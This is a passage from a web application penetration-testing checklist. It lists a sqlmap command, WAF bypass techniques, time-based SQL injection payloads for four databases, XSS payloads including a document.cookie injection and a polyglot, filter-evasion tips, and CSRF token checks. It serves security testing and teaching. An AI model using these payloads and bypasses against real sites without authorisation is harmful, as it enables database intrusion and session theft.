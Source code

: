         - [ ]  Save file as anyname.txt
        - [ ]  SQLmap command to run
        - [ ]  python [sqlmap.py](http://sqlmap.py/) r ~/Desktop/textsqli.txt proxy= [http://127.0.0.1:8080](http://127.0.0.1:8080/)
    - [ ]  Run SQL injection scanner on all requests
    - Bypassing WAF
        - [ ]  Using Null byte before SQL query
        - [ ]  Using SQL inline comment sequence
        - [ ]  URL encoding
        - [ ]  Changing Cases (uppercase/lowercase)
        - [ ]  Use SQLMAP tamper scripts
    - Time Delays
        
        ```markup
              Oracle 	      dbms_pipe.receive_message(('a'),10)
              
              Microsoft 	  WAITFOR DELAY '0:0:10'
              
              PostgreSQL 	  SELECT pg_sleep(10)
              
              MySQL 	      SELECT sleep(10)
        ```
        
    - Conditional Delays
        
        ```markup
              Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
              
              Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
              
              PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
              
              MySQL 	      SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
        ```
        
- **Cross-Site Scripting Testing**
    - [ ]  Try XSS using QuickXSS tool by theinfosecguy
    - [ ]  Upload file using '"><img src=x onerror=alert(document.domain)>.txt
    - [ ]  If script tags are banned, use <h1> and other HTML tags
    - [ ]  If output is reflected back inside the JavaScript as a value of any variable just use alert(1)
    - [ ]  if " are filtered then use this payload /><img src=d onerror=confirm(/tushar/);>
    - [ ]  Upload a JavaScript using Image file
    - [ ]  Unusual way to execute your JS payload is to change method from POST to GET. It bypasses filters sometimes
    - Tag attribute value
        - [ ]  Input landed -<input type=”text” name=”state” value=”INPUT_FROM_ USER”>
        - [ ]  Payload to be inserted -“ onfocus=”alert(document.cookie)"
    - [ ]  Syntax Encoding payload “%3cscript%3ealert(document.cookie)%3c/script%3e"
    - XSS filter evasion
        - [ ]  < and > can be replace with html entities &lt; and &gt;
        - [ ]  You can try an XSS polyglot.Eg:-javascript:/*-></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
    - XSS Firewall Bypass
        - [ ]  Check if the firewall is blocking only lowercase
        - [ ]  Try to break firewall regex with the new line(\r\n)
        - [ ]  Try Double Encoding
        - [ ]  Testing for recursive filters
        - [ ]  Injecting anchor tag without whitespaces
        - [ ]  Try to bypass whitespaces using Bullet
        - [ ]  Try to change request method
- **CSRF Testing**
    - [ ]  Validation of CSRF token depends on request method
    - [ ]  Validation of CSRF token depends on token being present
    - [ ]  CSRF token is not tied to the user session
    - [ ]  CSRF token is tied to a non-session cookie